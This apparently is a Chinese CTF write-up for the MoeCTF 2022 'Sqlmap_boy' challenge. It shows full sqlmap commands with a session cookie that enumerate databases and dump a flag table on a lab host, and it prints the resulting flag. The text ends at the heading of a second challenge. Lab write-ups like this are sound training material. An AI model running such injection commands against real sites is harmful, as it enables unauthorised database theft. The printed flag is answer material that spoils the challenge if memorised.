





# 2025-1-15 Misc中级

## List

## 1. [MoeCTF 2022]Sqlmap_boy

### 1.1 题目描述

- 开启环境后是一个网站，如图所示



### 1.2 解答

1. 首先我们尝试`admin`/`admin`尝试进行登录。


2. 发现登陆成功，但是没有任何信息可言。



3. 根据题目名字提示，我们使用sqlmap进行注入。但是由于我不会sqlmap，所以我们开始配置学习sqlmap。

4. 首先我们找到sqlmap的github仓库 https://github.com/sqlmapproject/sqlmap ，然后找到想要放置的文件夹，接着克隆这个仓库，之后我们进入这个仓库的文件夹下，就可以用命令行以运行python代码的方式进行工具的调用了。

5. 具体简单的使用方法参见下图，图片来源：https://blog.csdn.net/qq_61553520/article/details/130156864 。此链接内有详细的关于sqlmap的介绍和使用。



6. 现在我们使用sqlmap开始扫描整个可能存在的数据库，一定要添加`--cookie`，否则扫不出来。命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" --dbs
```

7. 扫描结果如下：


8. 根据经验，moectf表格最可疑，现在我们开始扫描数据库中的表，命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" --tables -D moectf
```

9. 扫描结果如下：



10. 看见flag表格，直接爆破其中所有内容。所用命令如下：

```bash
python sqlmap.py -u "http://node5.anna.nssctf.cn:27682/secrets.php?id=1" --cookie="PHPSESSID=b85da6ba5664bb0be8da1154e89b0570" -D moectf -T flag --dump-all
```

11. 扫描结果如下：



12. 发现flag，直接复制即可。

NSSCTF{e3ff4aef-81a4-4c8f-83ba-7d2df32d994f}

## 2. [HDCTF 2023]LoginMaster

### 2.1 题目描述

